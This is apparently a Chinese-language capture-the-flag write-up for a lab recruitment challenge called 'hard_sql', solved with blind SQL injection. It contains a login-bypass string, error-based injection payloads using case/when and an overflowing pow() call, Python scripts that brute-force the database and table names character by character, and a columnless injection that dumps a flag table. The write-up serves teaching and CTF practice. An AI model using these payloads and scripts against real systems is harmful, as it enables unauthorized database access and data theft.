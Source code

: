 ```yaml
---
layout: post 
title: "V1lu0实验室招新hard_sql"
date: 2020-06-23
author: su29029
tags: Web
---
```


## 0x00 前置知识

1.sql盲注。    

2.sql语法中ascii()函数，substr()等字符串处理函数，case when分支结构等控制语句。   

3.python脚本编写能力。    

## 0x01 解题

首先拿到题目，给出了一个登录框，并提示后台做了过滤。这里依然先尝试万能密码。```admin' or 1=1 #```发现登录成功，但是只有Login Success，没有其他任何信息。```admin' #``` 发现提示something wrong.

由于只提示有错误而不说明错误内容，这里无法使用联合查询或报错注入。故考虑盲注。   

给出第一步payload：

```
?user=1' and case (ascii(substr(database(),1,1))) when '104' then pow(999,999) end %23pass=123
```

解释一下，substr(string, index, length)函数用于截取string字符串从index位开始长度为length的子串，ascii()函数用于将字符转换为ascii码，case (statement) when '..' then ..... when '..' then ..... end类似switch的用法，判断某个statement的值，如果满足下面when的某个条件就执行then后的语句。而pow(999,999)执行一定会报错（数据溢出）。故如果```ascii(substr(database(),1,1))```的值等于104的话，数据库会报错，回显something wrong.如果值不等于，则不执行，回显wrong username password.这样我们通过判断database()的每一位是否等于某个ascii码转换后的值，就可以得出数据库名。    

```python
import requests

for i in range(1, 10):
    for j in range(32, 127):
        payload = "?user=1' and case (ascii(substr(database(), {},1))) when '{}' then pow(999,999) end %23&pass=123".format(i, j)
        url = "http://v8.su29029.xyz:10010/index.php" + payload
        r = requests.get(url)
        # print(j, end = " ")
        if (r.text.find('Something wrong') != -1):
            print(chr(j))
```

最终得到数据库名```hard_sql```.   

下一步爆表名。第二步payload：   

```
?user=1' and case (ascii(substr((Select group_concat(table_name) from Information_schema.tables where table_schema="hard_sql"),1,1))) when '102' then pow(999,999) end %23pass=123
```

通过group_concat函数查询表名。   

```python
import requests

for i in range(1, 15):
    for j in range(32, 127):
        payload = "?user=1' and case (ascii(substr((Select group_concat(table_name) from Information_schema.tables where table_schema=\"hard_sql\"), {},1))) when '{}' then pow(999,999) end %23&pass=123".format(i, j)
        url = "http://v8.su29029.xyz:10010/index.php" + payload
        r = requests.get(url)
        # print(j, end = " ")
        if (r.text.find('Something wrong') != -1):
            print(chr(j))
```

最终得到所有数据表名```flag,users```.   

最后一步获取列名，但是发现column被过滤且无法绕过，故考虑无列名注入。   

先判断列数，仍然使用上述payload来判断。   

```
?user=1' and case (ascii(substr((Select `1` from (Select 1 union Select * from hard_sql.flag) as a limit 1,1), 1,1))) when '1000' then pow(999,999) end %23&pass=123
```

发现提示something wrong.说明列数错误(因为ascii码值不可能等于1000，但是报错了说明是前面语句出现问题，在没有语法错误的情况下只可能是列数错误)，故增加列数，最后发现一共有5列。因为使用如下payload时没有提示something wrong 而是 wrong username password.   

```
?user=1' and case (ascii(substr((Select `1` from (Select 1,2,3,4,5 union Select * from hard_sql.flag) as a limit 1,1), 1,1))) when '1000' then pow(999,999) end %23&pass=123
```

爆出该表的所有列的所有内容(一行一行来)：   

```
flag{{{{{{{
```

```
mini~~~
```

```
flag{this_is_not_a_flag}
```

```
ffllaagg{{}}
```

```
flag{sql_1s_s0_c00000001lllll!!!!!!}
```
最后一个是真正的flag。   
成功获得flag。   
